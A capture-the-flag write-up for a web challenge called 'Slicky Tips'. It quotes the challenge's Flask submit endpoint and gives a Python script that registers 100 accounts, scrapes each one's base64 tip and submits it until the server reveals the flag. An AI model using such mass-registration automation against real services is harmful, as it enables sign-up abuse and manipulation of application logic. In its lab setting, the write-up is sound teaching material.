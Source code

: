 ## Challenge Name: Slicky Tips 
Category: PPC 
Points: ~880
Solves: ~20

Challenge Description: 
(insert some russian text i don't remember lmao)

Artifact Files:
* [src] (src/)

### Observations

This challenge gives us a remote website and it's sources. Let's look at the 
website first.

The website requires an authentication at first. We can register an account
and connect to the website.

Now we are presented with some... Disturbing sentences and an interesting
"Base64" looking text. Out of this we don't really get a great idea of what
the goal in this challenge is. Maybe getting some admin accounts ???

Now let's look at the source code to clarify all that.

The server is running through Flask and has some pretty interesting endpoints !
```py
@app.route('/submit', methods=['POST','GET'])
def submit():
    global counter
    if request.method == 'GET':
        if counter >= 100:
            return render_template('submit.html', flag=FLAG)
        else:
            return render_template('submit.html', remain=100-counter)
    
    data = request.get_json()
    part_flag = data['flag']
    exist = User.query.filter(User.main_tip == part_flag).count()
    usr = User.query.filter(User.main_tip == part_flag).first()

    if exist != 0:
        usr.main_tip = "Expired"
        db.session.commit()
        counter += 1
        return jsonify({"message":"Success submit"})
    return jsonify({"message":"Invalid flag"}), 400
```

This endpoint seems like our main target since it displays the flag if 
the counter variable is higher than 100 with a GET request !

Now if we do a post request we can submit a "flag" parameter
that will be checked by querying if it's one of the users "main tip"
if it is then it sets the main tip in question to "Expired" and increments
counter by 1.

Alright so we need to find out how to get these flags ! Luckily for us
the challenge is about loading tips and we can find them in a [tips.txt](./src/app/tips.txt)
file. These are some of the sentences that are stored on your profile
when you create an account ! But only one of them still stands out and that's
the **Base64** looking values from earlier.

So I got the idea of trying to submit those as the flag and guess what ? 
It worked :D 

But as we saw in the source code, it replaces our main tip "flag" with an "Expired" text.
Now we have a pretty straight forward task. 

We need to make a script to create a 100 accounts and submit each of their flags.
After that is done we can make a GET request and obtain our flag !

### Exploitation

This is the script I made to do this exact plan : 

```py
#!/usr/bin/env python3

import requests
from tqdm import trange
import re

target = "http://24a97844-fbf1-4fd1-bd38-6fa80b7ce334.spring.mireactf.ru"

def register(username: str, password: str):
    headers = {"Content-Type": "application/json"}
    data = {"username": username, "password": password}
    req = requests.post(target + '/api/register', headers=headers, json=data)

def get_info_tip(username: str, password: str):
    s = requests.Session()
    headers = {"Content-Type": "application/json"}
    data = {"username": username, "password": password}
    req = s.post(target + '/api/login', headers=headers, json=data)
    req = s.get(target + '/api/user')
    flag = req.json()['tips'].split('\n')[-1]
    return flag

def submit(flag: str):
    headers = {"Content-Type": "application/json"}
    data = {"flag": flag}
    requests.post(target + '/submit', headers=headers, json=data)

def get_flag():
    req = requests.get(target + '/submit')
    #found = re.search(r"mireactf{[a-z0-9\-]+}", req.text).group()
    found = re.search(r"flag{[a-z0-9\-]+}", req.text).group()
    return found

for i in trange(100):
    register(str(i), str(i))
    flag = get_info_tip(str(i), str(i))
    submit(flag)

flag = get_flag()
print("[+] Flag: " + flag)
```

Running this (it takes quite a while but we have a nice loading bar for that)
We end up getting the flag and we can submit our finding !

---
[Back to home](../../README.md)
